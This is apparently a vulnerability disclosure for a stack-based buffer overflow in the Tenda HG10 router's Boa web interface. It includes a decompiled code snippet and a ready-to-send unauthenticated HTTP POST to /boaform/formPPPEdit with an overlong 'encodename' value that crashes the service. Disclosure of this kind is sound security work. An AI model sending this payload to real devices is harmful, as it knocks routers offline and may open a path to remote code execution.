



# TENDA HG10: Stack-Based Buffer Overflow (CWE-121) in `formPPPEdit` (`/boaform/formPPPEdit` / `encodename`)

## Summary

TENDA HG10 web management interface (`formPPPEdit` / `boaform/formPPPEdit`) is vulnerable to a stack-based buffer overflow via an overly long `encodename` parameter, allowing an unauthenticated attacker to crash the Boa service or potentially achieve arbitrary code execution.

## Impact

- **Impact type:** Denial of Service (DoS) of Boa web service; potential Remote Code Execution (RCE) via stack corruption
- **Authentication required:** not required
- **Privilege:** root, because the Boa process runs with elevated privileges on the device
- **User interaction:** not required

## Affected Products

- **Vendor:** TENDA
- **Product:** TENDA HG10 AC1200 Dual-Band Wi-Fi xPON ONT
- **Vulnerability type:** Stack-Based Buffer Overflow (CWE-121)

### Tested vulnerable firmware

- HG7_HG9_HG10re_300001138_en_xpon

**Firmware download address:**  
https://www.tendacn.com/material/show/105719

> The vulnerability was verified on firmware version HG7_HG9_HG10re_300001138_en_xpon

## Attack Vector

- **Entry point:** `POST /boaform/formPPPEdit`
- **Handler selector:** `formPPPEdit`
- **Injection parameter:** `encodename`
- **Authentication:** not required
- **User interaction:** not required

## Technical Details

The Boa web management component in TENDA HG10 exposes a handler associated with `formPPPEdit` and reachable through `/boaform/formPPPEdit`. During request processing, the handler reads the user-controlled `encodename` parameter and decodes it into the stack buffer `v31` through `data_base64decode(...)` without enforcing an output length limit.

The vulnerable code path requires `save` to be non-empty and `item` to be set to `0`.

The vulnerable function flow, based on the decompiled firmware analysis, is:

```c
char *encoded = boaGetVar(a1, (int)"encodename", (int)"");
...
data_base64decode(encoded, v31);
```



The vulnerability flow - numbered steps:

1. **Unvalidated external input**  
   The handler obtains the `encodename` value directly from the incoming HTTP request.

2. **Unsafe stack copy / decode**  
   The externally controlled `encodename` string reaches the destination stack buffer `v31`. Because the copy or decode operation does not enforce the destination size, an overlong value can overwrite the stack frame.

3. **Execution with system-level privileges**  
   The vulnerable operation occurs inside the router's Boa management process. In testing, the immediate result was a crash of the management service, and a sufficiently controlled overwrite could have broader security impact.

Overall, this matches **CWE-121: Stack-Based Buffer Overflow**.

## Proof of Concept (PoC)

### Steps to reproduce

1. Connect to the TENDA HG10 web management interface.
2. Send a crafted POST request to `/boaform/formPPPEdit` with an excessively long `encodename` value to overflow the stack buffer `v31`.
3. Observe that the Boa service crashes and the administrative web interface becomes unreachable.

### Example request

Sends an overlong `encodename` value to trigger the stack overflow in `formPPPEdit`.

```http
POST /boaform/formPPPEdit HTTP/1.1
Host: 192.168.188.140:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:149.0) Gecko/20100101 Firefox/149.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 2509
Origin: http://192.168.188.140:8888
Connection: keep-alive
Referer: http://192.168.188.140:8888/tcpiplan.asp?v=1775530188000
Upgrade-Insecure-Requests: 1
Priority: u=4

save=1&item=0&status=1&encodename=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

### Verification

After the request is sent, the service stops responding. A later request to the administrative web interface fails, confirming the Boa service crash.

**Vulnerable code / analysis evidence:**


**Raw HTTP request / exploit attempt:**


**Observed result:**



